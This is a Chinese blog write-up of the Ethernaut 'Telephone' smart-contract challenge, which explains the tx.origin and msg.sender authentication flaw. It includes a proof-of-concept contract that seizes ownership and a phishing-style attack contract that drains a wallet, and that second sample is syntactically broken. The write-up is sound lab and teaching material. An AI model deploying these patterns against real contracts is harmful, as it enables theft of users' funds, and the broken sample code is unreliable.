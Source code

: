 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-3'
date: 2022-12-8 18:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'






---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](.\assets\1670479273112.png)

:::

#### 第四关Telephone  思路与POC

##### 目标: 更改合约的拥有者

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
  //定位flag代码, 问题在tx.origin这个全局变量. 
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

#### 这关实际是想说明tx.origin和msg.sender两个全局变量的区别

##### tx.origin：记录原始交易发起者的地址

##### msg.sender：记录最新一次交易发起者的地址

##### poc思路:point_right:：要使原始交易发起者地址与最近一次交易发起者地址不同只需要加中间层，即中间合约代替我们的钱包地址发起交易

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract fish {
//在中间合约发起交易
    Telephone tel = Telephone(0xe2eB2bd7702D93f7d2Daa5b1362819421D186542);
   function changeOwner(address owner_) public{
        tel.changeOwner(owner_);
   }
}
```

#### 其实使用tx.origin用作鉴权往往能够导致钓鱼攻击 examle :

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;
// THIS CONTRACT CONTAINS A BUG - DO NOT USE
contract TxUserWallet {
    address owner;

    constructor() {
        owner = msg.sender;
    }

    function transferTo(address payable dest, uint amount) public {
        // 校验只有合约拥有者才能转账,但是使用tx.origin校验(无法验证是否有恶意合约中间调用)
        require(tx.origin == owner);
        dest.transfer(amount);
    }
}


contract TxAttackWallet {
    address payable owner;
 TxUserWallet txu = TxUserWallet(address....)
    constructor() {
        owner = payable(msg.sender);
    }
    //只要接收到的是TxUserWallet合约的拥有者发起的交易 那么此处调用transfer方法是可以通过校验的
    receive() external payable {
        TxUserWallet.transferTo(owner, msg.sender.balance);
    }
}
```

